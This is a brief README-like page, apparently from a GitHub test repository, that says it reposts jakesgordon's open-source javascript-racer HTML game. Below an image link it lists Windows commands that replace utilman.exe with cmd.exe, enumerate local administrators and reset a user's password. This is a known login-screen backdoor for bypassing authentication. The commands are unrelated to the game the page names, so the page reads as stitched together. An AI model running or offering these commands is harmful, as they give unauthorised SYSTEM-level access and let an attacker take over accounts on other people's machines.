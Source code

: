# 仅供上传者Test！！！

---转自jakesgordon(javascript-racer)!!!---
--开源HTML前端游戏--
![image](https://github.com/liukee/TEST/assets/39934375/7ca99195-1b95-4872-b20d-c91accfd52e1)
copy C:\windows\system32\utilman.exe C:\Windows\system32\utilman.exebak
copy C:\windows\system32\cmd.exe C:\Windows\system32\utilman.exe
net localgroup administrators
net user "user" *
